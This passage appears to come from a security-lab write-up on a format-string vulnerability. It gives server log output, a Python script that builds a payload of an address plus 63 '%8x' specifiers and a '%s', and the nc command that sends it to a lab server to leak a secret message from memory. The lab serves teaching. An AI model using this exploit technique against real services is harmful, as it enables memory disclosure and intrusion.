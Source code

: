 ```bash
server-10.9.0.5 |      5dc
server-10.9.0.5 |  80e5320
server-10.9.0.5 |        0
server-10.9.0.5 |        0
server-10.9.0.5 |        0
server-10.9.0.5 | ffffdb74
server-10.9.0.5 |        0
server-10.9.0.5 |        0
server-10.9.0.5 |        0
server-10.9.0.5 |      5dc
server-10.9.0.5 | 2b2b2b2b  # ASCII code for "++++"
server-10.9.0.5 | The target variable's value (after):  0x11223344
server-10.9.0.5 | (^_^)(^_^)  Returned properly (^_^)(^_^)
```

### Step 2: Heap Data

Given that it takes 63 "%x" to reach the start of the input buffer, we only need to provide the address of the secret message as the first 4 bytes of the input buffer and print its contents using "%s" in the format string.

- Auxiliary script to generate the payload:
```py
#!/usr/bin/python3
import sys

N = 1500
content = bytearray(0x0 for i in range(N))

number  = 0x080b4008
content[0:4]  =  (number).to_bytes(4,byteorder='little')

s = "%8x\n"*63 + "%s"

fmt  = (s).encode('latin-1')
content[4:4+len(fmt)] = fmt

with open('badfile', 'wb') as f:
  f.write(content)
```

```bash
$ cat badfile | nc 10.9.0.5 9090
server-10.9.0.5 | Got a connection from 10.9.0.1
server-10.9.0.5 | Starting format
server-10.9.0.5 | The input buffer's address:    0xffffd4c0
server-10.9.0.5 | The secret message's address:  0x080b4008
server-10.9.0.5 | The target variable's address: 0x080e5068
server-10.9.0.5 | Waiting for user input ......
server-10.9.0.5 | Received 1500 bytes.
server-10.9.0.5 | Frame Pointer (inside myprintf):      0xffffd3e8
server-10.9.0.5 | The target variable's value (before): 0x11223344
server-10.9.0.5 |@
                 11223344
server-10.9.0.5 |     1000
[...]
server-10.9.0.5 |      5dc
server-10.9.0.5 | A secret message
server-10.9.0.5 | The target variable's value (after):  0x11223344
server-10.9.0.5 | (^_^)(^_^)  Returned properly (^_^)(^_^)
```
